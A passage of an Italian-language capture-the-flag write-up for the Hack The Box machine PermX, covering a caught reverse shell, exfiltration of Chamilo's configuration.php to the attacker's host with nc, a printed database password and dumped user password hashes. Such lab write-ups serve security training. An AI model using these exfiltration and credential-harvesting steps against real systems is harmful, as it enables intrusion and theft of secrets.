 otteniamo cosi la nostra shell

```bash
kali@kali ~/htb/permx
❯ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.23] 40208
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# www-data --> mtz

All'interno del percorso `/var/www/chamilo/app/config`  troviamo un file di configurazione.php, lo scarichiamo e vediamo cosa contiene.
```bash
www-data@permx:/var/www/chamilo/app/config$ nc 10.10.14.49 1010 < configuration.php
```

```bash
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

Abbiamo delle credenziali per accedere al database lato localhost

`mysql -u chamilo -h 127.0.0.1 -p`

```bash
MariaDB [chamilo]> select username, password form user;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'user' at line 1
MariaDB [chamilo]> select username, password from user;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
| anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----------+--------------------------------------------------------------+
2 rows in set (0.001 sec)
```
